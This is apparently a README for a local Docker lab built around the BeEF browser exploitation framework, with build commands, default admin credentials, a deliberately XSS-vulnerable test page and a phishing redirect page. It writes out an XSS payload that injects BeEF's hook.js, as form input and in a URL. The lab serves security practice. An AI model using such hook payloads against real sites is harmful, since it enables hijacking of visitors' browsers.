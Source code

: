 # beef playground  
## build docker  
docker build -t beef-playground .  
docker run -it -p 80:80 -p 3000:3000 -p 6789:6789 beef-playground  
  
## beef server launched with  
admin web page: http://localhost:3000/ui/panel  
    user: beef  
    passwd: mybeefpasswd  
hook script: http://localhost:3000/hook.js  
  
## example pages accessible at:  
### Website with XSS vuln:  
XSS URL: http://localhost/xss-minimal.php  
input: <script src=http://localhost:3000/hook.js></script>  
or in URL: http://localhost/xss-minimal.php?name=<script src=http://localhost:3000/hook.js></script>  
  
### Phishing page for redirect test:  
phishing page: http://localhost/examples/github.html  
Module: Redirect iframe or standard  
  
## debug  
inspect docker container:  
docker run -it --entrypoint /bin/bash beef-playground  
in case any ruby gem installations are running an error, the solution is manual install.  
e.g. gem install xmlrpc  
  
## More  
### One creating modules  
https://github.com/beefproject/beef/wiki/Module-creation  
### Usage with Metasploit  
https://github.com/beefproject/beef/wiki/Configuration#metasploit  

